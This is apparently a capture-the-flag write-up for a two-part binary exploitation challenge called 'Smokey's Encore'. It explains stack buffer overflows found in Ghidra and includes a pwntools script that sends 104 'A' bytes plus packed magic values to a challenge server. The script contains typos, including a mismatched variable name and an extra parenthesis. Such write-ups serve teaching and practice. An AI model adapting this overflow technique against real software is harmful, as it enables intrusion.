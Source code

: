 #ctf 

### PWN/BIN
# Smokey's Encore
#### 01222024

-----
## Part 1.

Using Ghidra to inspect the first binary, we can see that the program reads in more data that is allocated for the input storage variable. The next variable is later checked to be non-zero, and if this is met the flag is dropped. Sending in a large string (A * 30 or so) overflows this variable and prints out the flag.

## Part 2.

Part 2 has a similar vulnerability, but checks for specific bytes in specific places. We can overflow input again, but need a specific input. Math is hard so we can just use pwntool's `p32` function to load a our input with the specific bytes needed, as seen bellow:

```python
#!/usr/bin/env python3
# To run locally, just run this python program
# To run on remote, pass the string `REMOTE` as an argument

from pwn import *

BBIN_PATH = "sadfsadf"
HOST = "chal.ctf-league.osusec.org"
PORT = 1323


p = process(BIN_PATH) if not args.REMOTE else remote(HOST, PORT)

print(p.recvline()))
# recvlines removed for brevity
# pick option from menu
p.sendline(b'3')
# recvlines removed for brevity
#internet option
p.sendline(b'2')
# recvlines removed for brevity
#credit card input
p.sendline(b'1234')
print(p.recvline())
#social security number overflow
overflow =( b'A' * 104) + p32(0x1) + p32(0x1337) + p32(0xdeadbeef)  #<--- specific input
p.send(overflow)
print(p.recvline())
print(p.recvline()) #the flag

p.interactive()
```

This overloads the allocated memory for our "social security number" into the bits being evaluated before dumping the flag.
